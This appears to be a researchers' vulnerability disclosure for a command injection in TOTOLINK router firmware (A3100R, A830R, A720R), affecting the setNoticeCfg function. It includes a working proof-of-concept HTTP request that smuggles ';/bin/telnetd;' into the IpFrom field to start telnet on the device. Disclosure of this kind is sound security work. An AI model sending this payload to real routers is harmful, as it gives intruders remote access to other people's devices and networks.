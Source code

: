 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A3100R、A830R、A720R...

Version:A3100R_Firmware(V4.1.2cu.5050_B20200504)、A830R_Firmware(V5.9c.4729_B20191112)、A720R_Firmware(V4.1.5cu.470_B20200911)...

Type:Remote Command Execution

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setNoticeCfg` function,`IpFrom` is directly passed by the attacker, so we can control the `IpFrom` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:50%;" /></div>

**Supplement**

Initially, I discovered this vulnerability on A720R, which is located in `cstecgi.cgi`. Interestingly, during the process of observing other devices, I found that this function was encapsulated in `system.so`, such as A3100R; finally, I completed the verification on the A3100R device.



## PoC

We set `IpFrom` as **;bin/telnetd;** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 37
Origin: http://192.168.0.1
Connection: close

{"topicurl":"setting/setNoticeCfg","NoticeEnabled":"1","NoticeUrl":"www.baidu.com","BtnName":"abc123","WhiteListUrl1":"www.baidu.com","WhiteListUrl2":"","WhiteListUrl3":"","IpFrom":";/bin/telnetd;","IpTo":"4","NoticeTimeoutVal":"120"}
```

<div  align="center"><img src="./images/2.png" style="zoom:50%;" /></div>



## Result
The target router has enabled the telnet service

<div  align="center"><img src="./images/3.png" style="zoom:50%;" /></div>

